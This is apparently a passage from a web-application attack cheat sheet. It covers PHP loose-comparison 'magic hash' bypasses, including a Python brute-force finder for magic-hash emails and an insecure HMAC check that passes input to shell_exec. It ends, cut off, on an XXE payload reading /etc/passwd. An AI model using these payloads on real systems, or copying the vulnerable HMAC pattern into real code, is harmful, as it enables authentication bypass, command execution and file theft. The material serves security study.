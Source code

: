 MD5
```php
var_dump(md5('240610708') == md5('QNKCDZO'));
0e462097431906509019562988736854 == 0e830400451993494058024219903391
```
SHA1
```
0e07766915004133176347055865026311692244
```

```python
def find_email_with_juggle_md5(domain, max_prefix_length, hash_split_length):
    count = 0
    for check in itertools.imap(''.join, itertools.product(string.lowercase, repeat=int(max_prefix_length))):
        hash = hashlib.md5("%s@%s" % (check, domain)).hexdigest()
        if hash_split_length > 0:
            hash =  hash[:hash_split_length]
        if re.match(r'0+[eE]\d+$', hash):
            print "(+) Found %s@%s, with  %d attempts (hash: %s)" % (check, domain, count, hash)
    count += 1
```

- <https://www.whitehatsec.com/blog/magic-hashes/>

#### Reduction in Entropy (Insecure HMAC)

```php
$secret = 'secure_random_secret_value'; $hmac = md5($secret . $_POST['message']); if($hmac == $_POST['hmac'])<br>
// ===> Bypass by creating a hmac starting with `0e[0-9]` // var_dump("0e123" == "0e51217526859264863"); ===> TRUE shell_exec($_POST['message']);
```

#### Hashing Algorithm Disclosure

Given 240610708 and QNKCDZO attacker can guess that hashing algo is `md5`

```php
var_dump(md5('240610708') == md5('QNKCDZO')); ===> TRUE
```

## XML

- Internal entity: `<!ENTITY name "entity_value">`
  - `<!ENTITY test "<value>test</value>">`
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data ANY >
    <!ENTITY name "Replaced">
    ]>
    <root>
        <t1>&name;</t1>
    </root>
    ```
- External entity: 
  - Private: `<!ENTITY name SYSTEM "URI">`
    - `<!ENTITY example SYSTEM "http://example.com/example.xml">`
  - Public: `<!ENTITY name PUBLIC "public_id" "URI">`
    - `<!ENTITY example PUBLIC "-//W3C//TEXT examples//EN" "http://example.com/example.xml">`
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data ANY >
    <!ENTITY name SYSTEM "file:///etc/passwd">
    ]>
    <root>